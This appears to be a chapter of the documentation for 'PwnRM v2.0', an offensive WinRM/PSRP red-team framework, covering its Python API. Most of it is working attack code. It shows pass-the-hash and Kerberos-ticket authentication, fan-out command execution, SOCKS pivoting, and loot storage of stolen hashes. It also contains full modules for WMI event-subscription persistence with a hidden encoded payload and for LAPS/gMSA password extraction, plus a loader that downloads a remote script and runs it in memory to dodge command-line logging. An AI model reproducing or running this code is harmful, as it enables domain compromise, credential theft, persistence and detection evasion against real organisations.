




# 05 — Python Library API & Command & Control (C2) Integration

## 1. Modular Programmatic Architecture & Subsystem Layout

PwnRM v2.0 is engineered with a strictly decoupled, modular Python architecture. While the interactive CLI (`pwnshell`) provides a rich terminal interface with auto-completion, colored output, and interactive menus, all operational capabilities are implemented as standalone, thread-safe, and headless Python components.

The library architecture enables security researchers, red team operators, and automated offensive pipelines to import PwnRM as a high-performance WinRM / MS-PSRP engine without spawning subshells or terminal emulators.

---

### 1.1 Decoupled Component Hierarchy & Class Diagram



---

### 1.2 Execution Lifecycle & Data Flow

When executing a task via the PwnRM API, requests traverse multiple abstraction layers from credential resolution to binary stream decryption and generator consumption:



---

### 1.3 Core Architectural Tenets

1. **Native PSRP Runspace Execution**: Unlike naive WinRM wrappers that execute commands through `cmd.exe /c` or secondary `powershell.exe` child processes, PwnRM executes ScriptBlocks directly inside the remote `wsmprovhost.exe` host process via the `Microsoft.PowerShell` RunspacePool. This leaves **zero child process creation artifacts** (Sysmon Event ID 1).
2. **Real-Time Streaming Output**: Output is yielded as a Python generator streaming structured dictionary records (`stdout`, `error`, `warn`, `verbose`, `info`, `progress`). Long-running operations stream data chunk-by-chunk without blocking or memory buffering.
3. **Strict Anti-SSRF & Transport Isolation**: All HTTP/HTTPS sessions enforce `max_redirects = 0` and `trust_env = False`. WinRM servers never issue HTTP 3xx redirects; any redirect attempt is trapped and aborted to prevent credential reflection attacks against internal metadata services.
4. **Thread-Safe & Non-Blocking Multi-Tenancy**: The networking, port-forwarding, and session routing layers operate using daemon worker threads, `select` loops, and isolated transport objects, enabling concurrent multi-host operations.
5. **Least-Privilege State Persistence**: All session state, loot repositories, and ticket caches are created with strict POSIX permissions (`0o700` / `0o600`) and hardened on Windows using explicit `icacls` user ACL inheritance locks.

---

## 2. Core Python API Reference

### 2.1 Credential & Authentication Factory

PwnRM supports five distinct authentication mechanisms. All credential and transport objects are exposed in `pwnrm.core.credentials`, `pwnrm.core.transports`, and `pwnrm.core.api`.

```python
from pwnrm.core.credentials import NTCredential, KrbCredential
from pwnrm.core.transports import (
    SPNEGOTransport,
    KerberosTransport,
    CredSSPTransport,
    ClientCertTransport,
    BasicTransport
)
from pwnrm.core.utils import load_kerberos_ccache, load_pfx
from pwnrm.core.api import create_transport, argument_parser
```

#### Authentication Instantiation Matrix:

| Auth Method | Class / Function | Required Parameters | Use Case |
|---|---|---|---|
| **NTLM Password** | `NTCredential` + `SPNEGOTransport` | `domain`, `username`, `password` | Standard password auth over HTTP/HTTPS. |
| **Pass-the-Hash (PtH)** | `NTCredential` + `SPNEGOTransport` | `domain`, `username`, `nt_hash` (`LM:NT` or `:NT`) | Lateral movement using extracted NT hash. |
| **Kerberos Ticket (ccache)** | `KrbCredential` + `KerberosTransport` | `ticket`, `tgskey` (or via `load_kerberos_ccache`) | Ticket-granting auth via Kirbi / ccache files. |
| **ADCS Client Cert (mTLS)** | `load_pfx` + `ClientCertTransport` | `pfx_path`, `pfx_password` | Mutual TLS authentication via ESC1-ESC17 certs. |
| **CredSSP Delegation** | `NTCredential` + `CredSSPTransport` | `domain`, `username`, `password`/`nt_hash` | Multi-hop WinRM / double-hop delegation. |

#### Code Example: Dynamic Transport Creation via Helper

```python
import argparse
from pwnrm.core.api import argument_parser, create_transport

# 1. Parse CLI-style arguments programmatically
parser = argument_parser()
args = parser.parse_args([
    "-u", "Administrator",
    "-H", "aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0",
    "-d", "CORP.LOCAL",
    "--ssl",
    "dc01.corp.local"
])

# 2. Build transport automatically based on argument priority
transport = create_transport(args)
print(f"[+] Instantiated transport: {transport.__class__.__name__} -> {transport.url}")
```

#### Code Example: Manual Credential Construction

```python
from pwnrm.core.credentials import NTCredential, KrbCredential
from pwnrm.core.transports import SPNEGOTransport, KerberosTransport, ClientCertTransport
from pwnrm.core.utils import load_kerberos_ccache, load_pfx

# Option A: Pass-the-Hash
nt_creds = NTCredential(
    domain="CORP",
    username="svc_backup",
    nt_hash="31d6cfe0d16ae931b73c59d7e0c089c0"
)
transport_pth = SPNEGOTransport("http://192.168.1.50:5985/wsman", nt_creds)

# Option B: Kerberos ccache Ticket
domain, user, ticket, tgskey = load_kerberos_ccache("/tmp/admin.ccache")
krb_creds = KrbCredential(domain=domain, username=user, ticket=ticket, tgskey=tgskey)
transport_krb = KerberosTransport("http://dc01.corp.local:5985/wsman", krb_creds)

# Option C: ADCS Client Certificate (mTLS)
cert_pem, key_pem = load_pfx("admin_esc1.pfx", "SecretPass123")
transport_cert = ClientCertTransport("https://ca01.corp.local:5986/wsman", cert_pem, key_pem)
```

---

### 2.2 Transport Subsystem & Anti-SSRF Protection

All transport classes inherit from `pwnrm.core.transports.Transport`. The transport layer encapsulates HTTP/HTTPS communication, SPNEGO/Kerberos token framing, and cryptographic encryption boundaries.

```python
from pwnrm.core.transports import Transport
from pwnrm.core.credentials import TransportError

# Hardening attributes built into every Transport instance:
# 1. max_redirects = 0    (Traps HTTP 301/302/307/308 redirects and raises TransportError)
# 2. trust_env = False     (Blocks environmental proxy pollution)
# 3. User-Agent = SKIP     (Suppresses identifiable requests headers)
```

> [!IMPORTANT]
> **Anti-SSRF Protection**: In accordance with PwnRM security boundaries, WinRM protocol endpoints do not issue redirects. If a target responds with an HTTP redirect, `TransportError` is raised immediately to prevent credential leaks to rogue redirection targets.

---

### 2.3 Low-Level `Runspace` & Streaming Execution Engine

The `Runspace` class (`pwnrm.core.runspace.Runspace`) manages the MS-PSRP protocol state machine and pipeline lifecycle.

```python
from pwnrm.core.transports import SPNEGOTransport
from pwnrm.core.credentials import NTCredential
from pwnrm.core.runspace import Runspace

creds = NTCredential(domain="CORP", username="Administrator", password="Password123!")
transport = SPNEGOTransport("http://10.0.0.5:5985/wsman", creds)

# Using Runspace as a Context Manager ensures deterministic cleanup
with Runspace(transport, timeout=45) as rs:
    print(f"[+] Runspace Opened | Remote Shell ID: {rs.shell_id}")
    
    # Execute command and consume stream records
    stream = rs.run_command("Get-Service -Name 'WinRM', 'EventLog' | Select-Object Name, Status")
    
    for record in stream:
        if "stdout" in record:
            print(f"[STDOUT]   {record['stdout']}", end="")
        elif "error" in record:
            print(f"[STDERR]   {record['error']}", end="")
        elif "warn" in record:
            print(f"[WARNING]  {record['warn']}", end="")
        elif "verbose" in record:
            print(f"[VERBOSE]  {record['verbose']}", end="")
        elif "info" in record:
            print(f"[INFO]     {record['info']}", end=record.get("endl", "\n"))
        elif "progress" in record:
            print(f"[PROGRESS] {record['progress']}", end="\r")
```

#### Stream Record Data Dictionary:

```python
{
    "stdout":   str,  # Decoded standard output text (includes trailing newline)
    "error":    str,  # PowerShell ErrorRecord string representation
    "warn":     str,  # Warning stream output (Write-Warning)
    "verbose":  str,  # Verbose stream output (Write-Verbose)
    "info":     str,  # Information stream output (Write-Host / Write-Information)
    "endl":     str,  # Information stream line terminator (usually "\n")
    "progress": str   # Progress percentage / status description
}
```

---

### 2.4 Multi-Session Orchestration & Jump Graph Routing

The `SessionManager` (`pwnrm.core.session_mgr.SessionManager`) coordinates concurrent sessions across multiple target endpoints, providing switching, serialized state backup, and sequential fan-out command execution.

```python
from pathlib import Path
from pwnrm.core.session_mgr import SessionManager
from pwnrm.core.transports import SPNEGOTransport
from pwnrm.core.credentials import NTCredential
from pwnrm.core.runspace import Runspace

session_mgr = SessionManager(base_dir=Path("/tmp/my_c2_session"))

def add_target(host: str, user: str, domain: str, password: str) -> int:
    creds = NTCredential(domain=domain, username=user, password=password)
    transport = SPNEGOTransport(f"http://{host}:5985/wsman", creds)
    rs = Runspace(transport)
    rs.__enter__()  # Open persistent RunspacePool
    
    node = session_mgr.register_session(
        runspace=rs,
        transport=transport,
        target_info={"host": host, "user": user, "domain": domain},
        name=f"pivot_{host}"
    )
    return node.session_id

# Connect to multiple domain hosts
sid1 = add_target("10.0.0.10", "Administrator", "CORP", "P@ssw0rd1")
sid2 = add_target("10.0.0.20", "Administrator", "CORP", "P@ssw0rd1")

# List all active sessions
for sess in session_mgr.list_sessions():
    print(f"Session {sess['id']}: {sess['name']} -> {sess['user']}@{sess['host']} (Active: {sess['is_alive']})")

# Fan-out execution across all sessions
results = session_mgr.fan_out_exec("hostname; whoami /priv")
for sid, output in results.items():
    print(f"=== Host Session {sid} ===\n{output}\n")

# Save session state securely to disk
saved_file = session_mgr.save_state("operations_state.json")
print(f"[+] State serialized securely to: {saved_file}")

# Clean up sessions
session_mgr.close_session(sid1)
session_mgr.close_session(sid2)
```

---

### 2.5 In-Band Tunnels & Port Multiplexing API

PwnRM provides embedded RFC 1928 SOCKS5 proxying and local port-forwarding subsystems (`pwnrm.core.tunnel`).

```python
from pwnrm.core.tunnel import Socks5Server, PortForwarder

# 1. Start an In-Band RFC 1928 SOCKS5 Server
socks = Socks5Server(bind_host="127.0.0.1", bind_port=1080)
socks.start()
print(f"[*] SOCKS5 listening on {socks.bind_host}:{socks.bind_port}")
# Proxychains or applications can now route traffic via 127.0.0.1:1080

# 2. Local Port Forwarding (e.g. forward local 8443 to internal ADCS server 10.0.0.5:443)
pf = PortForwarder()
fid = pf.start_local_forward(
    local_port=8443,
    remote_host="10.0.0.5",
    remote_port=443,
    bind_host="127.0.0.1"
)
print(f"[+] Port forward active (ID: {fid}): 127.0.0.1:8443 -> 10.0.0.5:443")

# List active forwards
for f in pf.list_forwards():
    print(f"  Forward {f['id']}: {f['bind']} -> {f['target']}")

# Stop forwarder & SOCKS server
pf.stop_forward(fid)
socks.stop()
```

---

### 2.6 OPSEC Profiles & Traffic Shaping API

The `OPSECProfile` engine (`pwnrm.core.opsec.OPSECProfile`) allows programmatic control over request jitter, command obfuscation, chunk sizes, and User-Agent disguises.

```python
from pwnrm.core.opsec import OPSECProfile

# Available modes: "stealth", "balanced", "aggressive", "hybrid-cloud"
opsec = OPSECProfile(mode="stealth")

print(f"Active Mode: {opsec.mode}")
print(f"User Agent:  {opsec.get_user_agent()}")
print(f"Delay Range: {opsec.config['min_delay']}s - {opsec.config['max_delay']}s")

# Execute with automated jitter
opsec.jitter_sleep()

# Obfuscate raw PowerShell commands
raw_cmd = "Get-ADUser -Filter *"
safe_cmd = opsec.obfuscate_cmd(raw_cmd)
```

---

### 2.7 Automated Structured Loot & Artifact Pipeline

The `LootManager` (`pwnrm.core.loot.LootManager`) standardizes the storage of credentials, Kerberos tickets, certificates, BloodHound JSONs, and memory dumps under target-specific directory trees with permission hardening.

```python
from pathlib import Path
from pwnrm.core.loot import LootManager

loot = LootManager(base_dir=Path("/opt/redteam/engagement_loot"))

# Store an extracted credential
entry = loot.store_credential(
    target="dc01.corp.local",
    cred_type="NTLM",
    account="krbtgt",
    secret="e19ccf750f365fa27657c86b65712890",
    source="DCSync"
)

# Store a binary artifact (e.g. extracted PFX certificate or Kerberos ticket)
cert_bytes = b"-----BEGIN CERTIFICATE-----\nMII..."
artifact_path = loot.store_artifact(
    target="dc01.corp.local",
    category="certs",
    filename="administrator_esc1.crt",
    data=cert_bytes
)

print(f"[+] Artifact stored at: {artifact_path}")

# Retrieve summary of target loot
target_loot = loot.list_target_loot("dc01.corp.local")
print(f"Target Credentials Count: {len(target_loot['credentials'])}")
print(f"Target Certificates:      {target_loot['artifacts']['certs']}")
```

---

## 3. Extending the Platform: Custom Module Development

PwnRM includes an extensible module plugin architecture (`pwnrm.modules`). All built-in modules (`!adcs`, `!kerberos`, `!bloodhound`, `!entra`, `!creds`, `!lateral`, `!evasion`, `!playbook`) inherit from `BaseModule`.



---

### 3.1 `BaseModule` Interface Specification

To implement a custom plugin, create a class subclassing `BaseModule`:

```python
from typing import List, Any
from pwnrm.modules import BaseModule

class CustomPlugin(BaseModule):
    name: str = "my_plugin"
    description: str = "Detailed description of plugin capabilities"
    author: str = "Operator"
    options: dict = {
        "--target": {"desc": "Target IP or hostname", "default": ""},
        "--flag":   {"desc": "Boolean flag for operation", "action": "store_true"}
    }

    def run(self, shell, args: List[str]) -> Any:
        """
        Executed when invoked via interactive shell (!module run my_plugin)
        or called programmatically.
        
        :param shell: Instance of PwnShell (exposing run_sync, run_command, loot_mgr, etc.)
        :param args:  List of raw argument strings
        :return:      Arbitrary Python object (dict, bool, str)
        """
        raise NotImplementedError
```

---

### 3.2 Shell Utility & Escaping Primitives

Modules have direct access to the `shell` controller and its utility helpers:

- **`shell.run_sync(cmd: str, max_bytes: int = 1048576) -> str`**: Executes PowerShell synchronously and returns aggregated stdout (protected with a 1MB buffer cap against OOM).
- **`shell.run_command(cmd: str) -> Generator`**: Low-level stream generator.
- **`shell._pse(s: str) -> str`**: Escapes single quotes (`'` -> `''`) for embedding into PowerShell single-quoted literals.
- **`shell._pde(s: str) -> str`**: Escapes double quotes, backticks, and dollar signs for double-quoted PowerShell strings.
- **`shell.write_info(msg)` / `shell.write_warning(msg)` / `shell.write_error(msg)`**: Formatted terminal output.
- **`shell.loot_mgr`**: Direct access to `LootManager`.
- **`shell.opsec_profile`**: Direct access to `OPSECProfile`.

---

### 3.3 Production-Grade Module 1: In-Memory WMI Event Subscription Persistence

```python
"""
pwnrm.modules.wmi_persist
Installs a WMI Event Subscription Persistence (CommandLineEventConsumer) in memory.
"""
from typing import List, Any
from pwnrm.modules import BaseModule
from pwnrm.shell.commands import b64str
from pwnrm.shell.ui import c, G, Y, R

class WMIPersistenceModule(BaseModule):
    name = "wmi_persist"
    description = "Install WMI Event Subscription Persistence (CommandLineEventConsumer)"
    author = "RedTeamOperator"
    options = {
        "--name":    {"desc": "Name identifier for WMI Filter/Consumer/Binding"},
        "--command": {"desc": "Payload command line to execute on trigger"},
        "--cleanup": {"desc": "Remove the specified WMI subscription"},
    }

    def run(self, shell, args: List[str]) -> Any:
        sub_name = "WindowsUpdateCheck"
        command = "powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgA..."
        cleanup = False
        
        for i, a in enumerate(args):
            if a == "--name" and i + 1 < len(args):
                sub_name = args[i + 1]
            elif a == "--command" and i + 1 < len(args):
                command = args[i + 1]
            elif a == "--cleanup":
                cleanup = True

        safe_name = shell._pse(sub_name)

        if cleanup:
            shell.write_info(c(Y, f"  [*] Removing WMI Event Subscription: '{sub_name}'"))
            ps_cleanup = f"""
            Get-WmiObject -Namespace root\\subscription -Class __EventFilter -Filter "Name='{safe_name}'" | Remove-WmiObject
            Get-WmiObject -Namespace root\\subscription -Class CommandLineEventConsumer -Filter "Name='{safe_name}'" | Remove-WmiObject
            Get-WmiObject -Namespace root\\subscription -Class __FilterToConsumerBinding -Filter "Filter='__EventFilter.Name=\"{safe_name}\"'" | Remove-WmiObject
            Write-Host "[+] WMI Subscription removed."
            """
            out = shell.run_sync(ps_cleanup)
            shell.write_line({"stdout": out})
            return {"status": "removed", "name": sub_name}

        shell.write_info(c(Y, f"  [*] Deploying WMI Event Subscription: '{sub_name}'"))

        # Build WMI payload with robust single-quote escaping
        ps_deploy = f"""
        $filter = Set-WmiInstance -Namespace root\\subscription -Class __EventFilter -Arguments @{{
            Name = '{safe_name}';
            EventNamespace = 'root\\cimv2';
            QueryLanguage = 'WQL';
            Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
        }}
        $consumer = Set-WmiInstance -Namespace root\\subscription -Class CommandLineEventConsumer -Arguments @{{
            Name = '{safe_name}';
            CommandLineTemplate = '{shell._pse(command)}'
        }}
        Set-WmiInstance -Namespace root\\subscription -Class __FilterToConsumerBinding -Arguments @{{
            Filter = $filter;
            Consumer = $consumer
        }}
        Write-Host "[+] WMI Subscription '{safe_name}' bound successfully."
        """

        encoded = b64str(ps_deploy.encode("utf-16le"))
        exec_cmd = f"Invoke-Expression ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('{encoded}')))"
        
        output = shell.run_sync(exec_cmd)
        shell.write_line({"stdout": output})
        
        # Record into Loot
        target_host = shell.target_info.get("host", "general")
        shell.loot_mgr.store_credential(
            target=target_host,
            cred_type="Persistence",
            account=sub_name,
            secret=command,
            source="wmi_persist"
        )
        return {"status": "deployed", "name": sub_name, "command": command}
```

---

### 3.4 Production-Grade Module 2: Active Directory LAPS & gMSA Password Extractor

```python
"""
pwnrm.modules.laps_hunter
Extracts legacy LAPS (ms-Mcs-AdmPwd), Windows LAPS (msLAPS-Password), and gMSA passwords.
"""
from typing import List, Any
import json
from pwnrm.modules import BaseModule
from pwnrm.shell.commands import b64str
from pwnrm.shell.ui import c, G, Y, R, BLD

class LAPSHunterModule(BaseModule):
    name = "laps_hunter"
    description = "Audit and extract Active Directory LAPS and gMSA plaintext passwords"
    author = "RedTeamOperator"
    options = {
        "--domain": {"desc": "Domain FQDN (defaults to current domain)"},
    }

    def run(self, shell, args: List[str]) -> Any:
        shell.write_info(c(Y + BLD, "  [*] Scanning Active Directory for LAPS & gMSA Credentials..."))

        ps_script = """
        $results = @()
        $searcher = [ADSISearcher]"(|(ms-Mcs-AdmPwd=*)(msLAPS-Password=*)(objectCategory=msDS-GroupManagedServiceAccount))"
        $searcher.PageSize = 200
        $searcher.PropertiesToLoad.AddRange(@("sAMAccountName", "dNSHostName", "ms-Mcs-AdmPwd", "msLAPS-Password", "msDS-ManagedPassword"))
        
        foreach ($res in $searcher.FindAll()) {
            $props = $res.Properties
            $name = if ($props["samaccountname"]) { $props["samaccountname"][0] } else { $props["dnshostname"][0] }
            
            $legacy_laps = if ($props["ms-mcs-admpwd"]) { $props["ms-mcs-admpwd"][0] } else { $null }
            $win_laps = if ($props["mslaps-password"]) { $props["mslaps-password"][0] } else { $null }
            $is_gmsa = $props.Contains("msds-managedpassword")
            
            $results += [PSCustomObject]@{
                Account = $name
                LegacyLAPS = $legacy_laps
                WindowsLAPS = $win_laps
                IsGMSA = $is_gmsa
            }
        }
        $results | ConvertTo-Json -Compress
        """

        encoded = b64str(ps_script.encode("utf-16le"))
        raw_json = shell.run_sync(f"Invoke-Expression ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('{encoded}')))")
        
        target_domain = shell.target_info.get("domain", "CORP.LOCAL")
        recovered_creds = []

        try:
            entries = json.loads(raw_json)
            if isinstance(entries, dict):
                entries = [entries]
            
            for item in entries:
                acct = item.get("Account", "unknown")
                pwd = item.get("LegacyLAPS") or item.get("WindowsLAPS")
                
                if pwd:
                    shell.write_info(c(G, f"  [+] LAPS Password Found: {acct} -> {pwd}"))
                    shell.loot_mgr.store_credential(
                        target=target_domain,
                        cred_type="LAPS",
                        account=acct,
                        secret=pwd,
                        source="laps_hunter"
                    )
                    recovered_creds.append({"account": acct, "type": "LAPS", "password": pwd})
                elif item.get("IsGMSA"):
                    shell.write_info(c(Y, f"  [*] gMSA Account Identified: {acct} (extractable via Key Credential)"))
                    recovered_creds.append({"account": acct, "type": "gMSA", "password": "N/A"})
                    
        except Exception as e:
            shell.write_error(f"Failed to parse LAPS query output: {e}")

        return {"recovered_count": len(recovered_creds), "entries": recovered_creds}
```

---

### 3.5 Dynamic Third-Party Plugin Loading

You can register custom modules at runtime without modifying the PwnRM package:

```python
from pwnrm.modules import ModuleManager
from my_custom_modules import WMIPersistenceModule, LAPSHunterModule

# 1. Initialize ModuleManager
manager = ModuleManager()

# 2. Register custom plugins
manager.register(WMIPersistenceModule)
manager.register(LAPSHunterModule)

# 3. Retrieve and inspect
plugin = manager.get_module("wmi_persist")
print(f"Loaded Plugin: {plugin.name} by {plugin.author}")
```

---

## 4. In-Memory Execution, Evasion & Programmatic File Transfer

PwnRM eliminates disk writes and AV/EDR detections through in-memory execution primitives.

### 4.1 Programmatic File Transfer with Verification

File upload and download occur over PSRP SOAP envelopes in chunked base64 byte streams without invoking SMB (port 445) or creating network share connections.

```python
import hashlib
from pwnrm.core.runspace import Runspace
from pwnrm.shell.commands import b64str, chunks

def upload_file_in_memory(runspace: Runspace, local_path: str, remote_dest_path: str):
    with open(local_path, "rb") as f:
        file_bytes = f.read()

    file_hash = hashlib.md5(file_bytes).hexdigest().upper()
    safe_dest = remote_dest_path.replace("'", "''")
    
    # Initialize / truncate remote target file
    for _ in runspace.run_command(f"[IO.File]::WriteAllBytes('{safe_dest}', [byte[]]@())"):
        pass

    # Stream chunks of 64KB over PSRP
    for chunk in chunks(file_bytes, 65536):
        b64_chunk = b64str(chunk)
        cmd = (
            f"$bytes = [Convert]::FromBase64String('{b64_chunk}'); "
            f"[IO.File]::AppendAllBytes('{safe_dest}', $bytes)"
        )
        for _ in runspace.run_command(cmd):
            pass

    # Verify remote MD5 hash
    verify_cmd = f"(Get-FileHash -Path '{safe_dest}' -Algorithm MD5).Hash"
    remote_hash = ""
    for rec in runspace.run_command(verify_cmd):
        if "stdout" in rec:
            remote_hash += rec["stdout"].strip()

    if remote_hash != file_hash:
        raise IOError(f"Upload integrity check failed! Local: {file_hash}, Remote: {remote_hash}")
    
    print(f"[+] Successfully uploaded {local_path} -> {remote_dest_path} (MD5: {file_hash})")
```

---

### 4.2 In-Memory PowerShell Script Injection (`!psrun` API)

Executes a remote `.ps1` script entirely in memory by downloading the raw bytes into a byte array, constructing a `ScriptBlockAst`, and invoking without creating a child process or touching the disk.

```python
from pwnrm.core.runspace import Runspace
from pwnrm.shell.commands import b64str

def execute_remote_ps1_in_memory(runspace: Runspace, script_url: str):
    url_b64 = b64str(script_url)
    
    ps_injector = f"""
    $url = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('{url_b64}'))
    $wc = New-Object Net.WebClient
    $scriptText = [Text.Encoding]::UTF8.GetString($wc.DownloadData($url))
    
    # Build ScriptBlock via AST to bypass simple command line loggers
    $sb = [ScriptBlock]::Create($scriptText)
    $ast = $sb.Ast.EndBlock.Copy()
    $dummy = [ScriptBlock]::Create('Get-Process').Ast
    $customAst = [Management.Automation.Language.ScriptBlockAst]::new($dummy.Extent, $null, $null, $null, $ast, $null)
    
    Invoke-Command -NoNewScope -ScriptBlock $customAst.GetScriptBlock()
    """
    
    for record in runspace.run_command(ps_injector):
        if "stdout" in record:
            print(record["stdout"], end="")
        elif "error" in record:
            print(f"[STDERR] {record['error']}", end="")
```

---

### 4.3 In-Memory .NET Assembly Reflection Execution (`!netrun` API)

Executes compiled .NET binaries (`.exe` / `.dll` such as `Seatbelt`, `Rubeus`, `SharpHound`) entirely in memory by loading byte arrays into the `AppDomain` and redirecting `[Console]::Out` to standard output.

```python
from pwnrm.core.runspace import Runspace
from pwnrm.shell.commands import b64str

def execute_assembly_in_memory(runspace: Runspace, assembly_bytes: bytes, args: list[str]):
    asm_b64 = b64str(assembly_bytes)
    args_b64 = [b64str(a) for a in args]
    args_ps = "@(" + ",".join(f"[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('{a}'))" for a in args_b64) + ")"

    ps_assembly_runner = f"""
    $rawBytes = [Convert]::FromBase64String('{asm_b64}')
    $assembly = [Reflection.Assembly]::Load($rawBytes)
    $entryPoint = $assembly.EntryPoint
    
    $argsArray = [string[]]{args_ps}
    
    # Capture standard output stream
    $sw = New-Object IO.StringWriter
    [Console]::SetOut($sw)
    [Console]::SetError($sw)
    
    if ($entryPoint.GetParameters().Length -eq 0) {{
        [void]$entryPoint.Invoke($null, $null)
    }} else {{
        [void]$entryPoint.Invoke($null, [object[]](,$argsArray))
    }}
    
    [Console]::SetOut([IO.StreamWriter]::Null)
    [Console]::SetError([IO.StreamWriter]::Null)
    $sw.ToString()
    """

    for record in runspace.run_command(ps_assembly_runner):
        if "stdout" in record:
            print(record["stdout"], end="")
```

---

### 4.4 In-Process Polymorphic AMSI & ETW Unhooking via API

